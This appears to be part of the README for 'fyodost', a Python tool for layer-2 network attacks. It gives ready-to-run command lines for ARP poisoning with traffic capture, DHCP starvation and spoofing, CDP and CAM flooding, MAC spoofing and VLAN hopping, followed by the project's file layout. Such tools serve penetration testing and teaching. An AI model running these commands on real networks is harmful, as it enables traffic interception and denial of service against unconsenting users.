 ### Attack Examples
```bash
# ARP Poisoning with PCAP capture
sudo fyodost --attack arp_poisoning --interface eth0 \
    --target-ip 192.168.1.100 --gateway-ip 192.168.1.1 --pcap

# CDP Flood attack
sudo fyodost --attack cdp_flood --interface eth0 --count 2000 --interval 0.05

# DHCP Starvation
sudo fyodost --attack dhcp_starvation --interface eth0 --persistent

# MAC Spoofing with Cisco OUI
sudo fyodost --attack mac_spoofing --interface eth0 --vendor cisco --count 500

# VLAN Hopping attack
sudo fyodost --attack vlan_hopping --interface eth0 --vlans 10,20,30 --count 50
```

### Advanced Usage
```bash
# Custom PCAP output path
sudo fyodost --attack arp_poisoning --interface eth0 \
    --target-ip 192.168.1.100 --gateway-ip 192.168.1.1 \
    --pcap /path/to/capture.pcap

# Attack with specific duration
sudo fyodost --attack dhcp_spoofing --interface eth0 --duration 600

# Verbose output mode
sudo fyodost --attack cam_flood --interface eth0 --count 10000 --verbose
```

## 🏗️ Project Structure

```
fyodost/
├── fyodost/
│   ├── main.py              # Main CLI interface
│   ├── attacks/             # Attack modules
│   │   ├── arp_poisoning.py
│   │   ├── cam_flood.py
│   │   ├── cdp_flood.py
│   │   ├── dhcp_spoofing.py
│   │   ├── dhcp_starvation.py
│   │   ├── double_vlan.py
│   │   ├── impersonation.py
│   │   ├── lldp_attack.py
│   │   ├── mac_spoofing.py
│   │   ├── mstp_attack.py
│   │   ├── pvlan_attack.py
│   │   ├── stp_attack.py
│   │   ├── switch_spoofing.py
│   │   └── vlan_hopping.py
│   └── utils/
│       ├── helpers.py       # Network utilities
│       └── quotes.py        # Motivational quotes
├── setup.py                 # Package installation
├── requirements.txt         # Python dependencies
└── README.md               # This file
```
